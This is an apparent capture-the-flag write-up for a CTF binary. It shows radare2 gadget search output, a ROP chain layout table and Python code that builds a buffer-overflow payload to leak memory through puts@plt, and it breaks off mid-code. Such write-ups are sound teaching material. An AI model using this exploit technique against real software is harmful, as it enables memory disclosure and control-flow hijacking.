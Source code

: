
## The basic building block: repeatable leak

This solution is made possible by the presence of a repeatable leak: a way to safely read memory content at addresses of choice and leaving the program in a state by which the leak can occur again.

To mount such a leak two conditions are needed:

1. a buffer overflow to gain conrol of `rip`
2. knowing the address of any libc function able to print content

The first condition is met by the `read` call in the `main` function which gives us 992 bytes of overflow.

The second condition is met by having the `puts` in the plt table, plus a rop gadget to initialize `rdi` with the address of choice:

```r2
[0x00400520]> e rop.len = 2
[0x00400520]> /R pop rdi
  0x00400703             5f  pop rdi
  0x00400704             c3  ret


```

The buffer layout, to feed the `read` in order to have a repeatable leak is as follows:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
????             | 32 bytes       | Initial data, regularly inside the buffer
XXXXXXXX         | 8 bytes        | Overwrites saved frame pointer (don't care)
0x00400703       | 8 bytes        | pop rdi; ret;
YYYYYYYY			  | 8 bytes		| address of content to be leaked
0x004004c0		| 8 bytes			| address of `puts` in the plt (initialized after the first use)
0x00400704		| 176 bytes		| address of a `ret;` gadget, repeated 22 times, to keep `rsp` value constant against repetitions
0x00400520		| 8 bytes			| address of entry point, to allow repetition

Here is the python code to perform the leak:

```python
def leak(address):
    payload = bytes('A' * 32, 'utf-8')

    payload += rop(
        0x42424242, # frame pointer
        0x00400703, # pop rdi; ret;
        address,    # leak
        0x004004c0, # puts@plt
        
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
```